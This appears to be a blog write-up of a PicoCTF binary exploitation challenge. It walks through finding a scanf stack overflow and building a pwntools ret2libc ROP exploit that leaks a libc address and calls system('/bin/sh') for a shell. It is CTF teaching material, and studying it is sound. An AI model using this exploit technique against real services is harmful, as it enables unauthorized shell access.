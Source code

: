 << [Back to Home](https://papadoxie.github.io)

# Here's a LIBC
## Write-up of the PicoCTF Binary Exploitation Challenge

<img	src="./ChallengeDescription.png"
		alt="Challenge Description"
/>

## Setup

3 files are provided to us for the challenge and the address
to the server is also provided.

Lets download the files and try to run the binary

<img	src="./Setup0.png"
		alt="Challenge Description"
/>

We get a crash
This occurs because our linker is a newer version than the libc provided

<img	src="./Setup1.png"
		alt="Challenge Description"
/>

We can fix this using pwninit which will automatically take care of this

<img	src="./Setup2.png"
		alt="Challenge Description"
/>

This fixed the problem

<img	src="./Setup3.png"
		alt="Challenge Description"
/>


## Analysis

Lets open the binary in Ghidra and take a look at whats going on

<img	src="./Analysis0.png"
		alt="Challenge Description"
/>

There is no input being taken in the main function but we see another function
Lets check it out

<img	src="./Analysis1.png"
		alt="Challenge Description"
/>

This looks like what we are looking for  
I have retyped some variables so its easier to understand  
As we can see there is no bound checking on the scanf input  
We can easily overflow the buffer since scanf will take an input until it encounters a newline

<img	src="./Analysis2.png"
		alt="Challenge Description"
/>

Sure enough, we get a segmentation fault and the program crashes  

Lets check the protections on the binaries

<img	src="./Analysis3.png"
		alt="Challenge Description"
/>

The stack is not executable so we can't execute shellcode pushed onto it  
PIE is off for vuln meaning addresses won't change for the binary on each execution  
This means we can easily leak an address from libc and use it to return to libc


## Exploitation

Lets open the binary in GDB and find exactly where we overwrite RIP

<img	src="./Exploitation0.png"
		alt="Challenge Description"
/>

<img	src="./Exploitation1.png"
		alt="Challenge Description"
/>

Now we need to find some ROP Gadgets to leak the address of a function in libc  
We can use pwntools ROPgadget for this  
  
We will use the puts() function to print out an address in libc so we also need the address of puts@plt
We can leak the address of any function inside libc. I have chosen setbuf()

To print the address of setbuf() in libc we need to pass the address of setbuf@got to puts()  
For this we will need to find a ROP Gadget that will allow us to modify RDI

<img	src="./Exploitation2.png"
		alt="Challenge Description"
/>

<img	src="./Exploitation3.png"
		alt="Challenge Description"
/>

<img	src="./Exploitation4.png"
		alt="Challenge Description"
/>

Now that we have found the relevant addresses we can leak the address of setbuf() inside libc

```py
import pwnlib.util.packing as pack
from pwn import log, process, remote

p = process("./vuln")  # Local binary

padding = b"A" * 136
pop_rdi = 0x400913  # ROP Gadget for popping rdi
setbuf_at_got = 0x601028  # Address of setbuf() in GOT
puts_at_plt = 0x400540  # Address of puts() in PLT
main = 0x400771  # Address of main for returning safely after leaking setbuf() address in libc

# ? Craft the payload to leak address of setbuf in libc
payload = padding  # Pad the stack until the stored RIP
payload += pack.p64(pop_rdi)  # Set the address of setbuf() in GOT as the first argument of puts()
payload += pack.p64(setbuf_at_got)  # This will be the first argument of puts()
payload += pack.p64(puts_at_plt)  # Call puts()
payload += pack.p64(main)  # Return to main() so the program doesnt crash

# ? Send the payload
p.sendline(payload)
p.recvline()  # Discard data we dont need
p.recvline()  # Discard data we dont need
leak = pack.u64(p.recvline().strip().ljust(8, b"\x00"))  # Format the address of setbuf() properly
log.info(f"Leaked setbuf Address -> {hex(leak)}")
```

<img	src="./Exploitation5.png"
		alt="Challenge Description"
/>

Now that we have an address inside libc we can calculate the base address of libc itself  
First lets figure out the offset of setbuf() from the base address of libc

<img	src="./Exploitation6.png"
		alt="Challenge Description"
/>

Now we can add this to our exploit

```py
setbuf_offset = 0x88540  # Static offset of setbuf() in libc
libc_base = leak - setbuf_offset  # Calculate base address of libc
log.info(f"libc Base Address -> {hex(libc_base)}")
```

To get a shell on the target system we will use the system() function which is also inside libc  
Lets find its address

<img	src="./Exploitation7.png"
		alt="Challenge Description"
/>

```py
system_offset = 0x4F4E0  # Static offset of system() in libc
libc_system = libc_base + system_offset # Calculate the actual address of system() in libc
log.info(f"system Address -> {hex(libc_system)}")
```

We can pass "/bin/sh" to system() to get a shell  
As this string is already present inside libc we dont need to put it on the stack ourselves  
We can simply use the one already available to us  
Lets find its address 

<img	src="./Exploitation8.png"
		alt="Challenge Description"
/>

```py
binsh_offset = 0x1B40FA  # Static offset of /bin/sh string in libc
libc_binsh = libc_base + binsh_offset
log.info(f"/bin/sh Address -> {hex(libc_binsh)}")
```

Now that we have all the relevant addresses we can finally craft our final payload  
Here is the remaining exploit

```py
# ? Craft the payload to call system("/bin/sh")
payload = padding  # Pad the stack until the stored RIP
payload += pack.p64(pop_rdi)  # Set the address of the string /bin/sh as the first argument of system()
payload += pack.p64(libc_binsh)  # This will be the first argument of system()
payload += pack.p64(ret)  # Align the stack to 16 bytes otherwise system() will crash
payload += pack.p64(libc_system)  # Call system()

# ? Send the payload
p.sendline(payload)

# ? Start an interactive session
p.interactive()
```

Notice we added another ROP Gadget (ret). This is to align the stack for the call to system()  
If the stack isn't aligned then we will get a segmentation fault and the program will crash  
Lets run the exploit script against the target server now

<img	src="./Exploitation9.png"
		alt="Challenge Description"
/>

Nice. It works  
Now we can grab the flag

<img	src="./Exploitation10.png"
		alt="Challenge Description"
/>